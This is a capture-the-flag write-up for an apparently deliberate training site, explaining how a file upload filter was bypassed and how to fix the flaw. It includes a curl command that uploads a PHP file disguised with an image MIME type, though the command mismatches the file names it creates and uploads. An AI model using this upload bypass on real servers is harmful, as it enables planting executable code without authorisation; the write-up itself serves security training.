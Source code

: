# File upload


## Flag
```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## How to find it

- Upon examination of the website, it is found a button called ADD IMAGE that redirects to another page that allows to upload an image to the server. After several tries, it is found that only jpeg/jpg files are accepted (any other type file is rejected). The page address is the following:

    - `http://192.168.56.102/index.php?page=upload`

- Since only jpeg/jpg files are accepted, we try to infiltrate a malicious script disguised as a jpg file. For that purpose we create the following script which using the 'curl' command, uploads our malicious file disguised as a jpg file.

    ```shell
    touch fake_exploit.php
    curl -X POST -F "Upload=Upload" \
    -F "uploaded=@exploit.php;type=image/jpg" \
    "http://192.168.56.102/index.php?page=upload" | grep 'flag'
    rm fake_exploit.php
    ```

- Once the malicious file is uploaded, the flag is obtained.

## How to fix it

Three basic strategies to solve this type of breach would be:

1. **Strict File Type Validation:** Ensure that the server-side validation strictly checks the file type by inspecting the file's content (MIME type) rather than just the file extension. This helps prevent malicious files disguised with a different extension from being uploaded.

2. **Content Scanning:** Implement content scanning for uploaded files to detect and block potentially malicious content. Use antivirus or malware scanning tools to analyze the file content before accepting the upload.

3. **Limit File Permissions:** Store uploaded files in a directory with limited permissions and ensure that they are not executable. This prevents any uploaded scripts from being executed on the server, reducing the risk of code injection attacks.

## Resources

- [File Upload - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [🚨 Esta es la Principal VULNERABILIDAD de las PÁGINAS WEB | Arbitrary File Upload - YouTube](https://www.youtube.com/watch?v=_w-ktFZX9II)